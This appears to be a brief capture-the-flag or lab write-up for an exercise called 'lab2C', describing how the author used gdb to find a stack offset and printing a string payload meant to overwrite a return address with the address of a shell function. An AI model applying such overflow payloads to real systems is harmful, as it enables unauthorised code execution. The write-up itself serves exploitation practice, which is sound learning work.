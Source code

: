 # Solution of lab2C

I couldn't do it without source code, so i look at this:

![source](screenshots/source.png)

In gdb i watched the stack all times with different strings and offset like `("A"*12 +"\x01\n")*offset` and then i calculated the offset. It equals to 28 for setting return address to shell function address. But we need to put first characters of the strings. So it looks like `("A"*12 + "\x01\n" + "B"*12 + "\x01\n" + "C"*12 + "\x01\n" + "D" + "\x01\n")*6 + "A"*12 + "\x01\n" + "B"*12 + "\x01\n" + "C"*12 + "\x01\n" + "D"*12 + "\x09\n"`:

![payload](screenshots/payload.png)
